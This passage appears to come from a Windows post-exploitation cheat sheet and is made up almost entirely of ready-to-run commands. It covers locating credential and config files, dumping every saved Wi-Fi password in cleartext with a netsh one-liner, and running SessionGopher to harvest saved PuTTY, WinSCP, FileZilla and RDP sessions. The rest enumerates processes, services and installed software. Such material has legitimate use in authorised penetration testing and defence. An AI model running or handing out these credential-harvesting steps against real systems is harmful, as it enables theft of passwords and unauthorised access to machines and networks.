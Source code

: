     %USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
    %WINDIR%\System32\drivers\etc\hosts
    dir c:*vnc.ini /s /b
    dir c:*ultravnc.ini /s /b

#### Wifi passwords

    Find AP SSID

    netsh wlan show profile

#### Get Cleartext Pass

    netsh wlan show profile <SSID> key=clear

#### Oneliner method to extract wifi passwords from all the access point.

    cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on

#### Passwords stored in services

######  Saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using SessionGopher

    https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
    Import-Module path\to\SessionGopher.ps1;
    Invoke-SessionGopher -AllDomain -o
    Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss

### Processes Enumeration and Tasks

####### What processes are running?

    tasklist /v
    net start
    sc query
    Get-Service
    Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize

#### Which processes are running as “system”

    tasklist /v /fi "username eq system"

#### Do you have powershell magic?

    REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion

#### List installed programs

    Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
    Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
